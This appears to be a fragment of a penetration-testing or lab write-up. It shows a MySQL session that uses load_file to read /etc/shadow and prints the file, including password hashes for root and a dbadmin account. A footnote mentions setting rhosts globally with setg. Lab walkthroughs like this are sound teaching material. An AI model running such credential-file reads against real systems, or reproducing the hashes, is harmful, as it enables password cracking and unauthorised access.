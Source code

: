 ```sh
MySQL [(none)]> select load_file("/etc/shadow");
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| load_file("/etc/shadow")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| root:$6$eoOI5IAu$S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/:17861:0:99999:7:::
daemon:*:17850:0:99999:7:::
bin:*:17850:0:99999:7:::
sys:*:17850:0:99999:7:::
sync:*:17850:0:99999:7:::
games:*:17850:0:99999:7:::
man:*:17850:0:99999:7:::
lp:*:17850:0:99999:7:::
mail:*:17850:0:99999:7:::
news:*:17850:0:99999:7:::
uucp:*:17850:0:99999:7:::
proxy:*:17850:0:99999:7:::
www-data:*:17850:0:99999:7:::
backup:*:17850:0:99999:7:::
list:*:17850:0:99999:7:::
irc:*:17850:0:99999:7:::
gnats:*:17850:0:99999:7:::
nobody:*:17850:0:99999:7:::
libuuid:!:17850:0:99999:7:::
syslog:*:17850:0:99999:7:::
mysql:!:17857:0:99999:7:::
dbadmin:$6$vZ3Fv3x6$qdB/lOAC1EtlKEC2H8h5f7t33j65WDbHHV50jloFkxFBeQC8QkdbQKpHEp/BkVMQD2C2AFPkYW3.W7jMlMbl5.:17861:0:99999:7:::
```


[^1]: setg is used to declare the rhosts as global so that we don't have to specify it again and again in a single session.